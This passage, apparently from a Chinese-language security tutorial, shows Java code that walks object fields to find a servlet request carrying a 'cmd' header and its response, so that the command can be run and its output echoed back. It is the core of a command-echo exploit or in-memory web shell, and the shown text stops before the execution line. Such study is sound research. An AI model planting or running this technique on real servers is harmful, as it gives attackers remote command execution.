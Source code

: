       28.                                     proc(o, depth);
    
      29.                                 }
    
      30.                             }
    
      31.                         }
    
      32.                     }
    
      33.                 }catch (Exception e){
    
      34.                     e.printStackTrace();
    
      35.                 }
    
      36.             }
    
      37.         }while(
    
      38.             //获取父类并遍历属性
    
      39.                 (n = n.getSuperclass())!=null
    
      40.         );
    
      41.     }
    
    
    

判断当前对象是否持有request和response类型，如果是则执行命令并写入Response。

    
          1. private static void proc(Object obj,int depth){
    
      2.      //如果遍历层数已经是最大层数则返回
    
      3.         if(depth > max_depth||(req!=null&&resp!=null)){
    
      4.             return;
    
      5.         }
    
      6.      // 如果该类型是java.lang包下的并且已经处理过了则跳过
    
      7.         if(!isSkiped(obj)){
    
      8.             //判断obj类型是否为HttpServletRequest.class的子类
    
      9.             if(req==null&&ReqC.isAssignableFrom(obj.getClass())){
    
      10.                 req = (HttpServletRequest)obj;
    
      11.                 if(req.getHeader("cmd")==null)
    
      12.                     req=null;
    
      13.             //判断obj类型是否为HttpServletResponse.class的子类
    
      14.             }else if(resp==null&&RespC.isAssignableFrom(obj.getClass())){
    
      15.                 resp = (HttpServletResponse) obj;
    
      16.             }
    
      17.             //如果获取到request和response对象，则执行命令并写入
    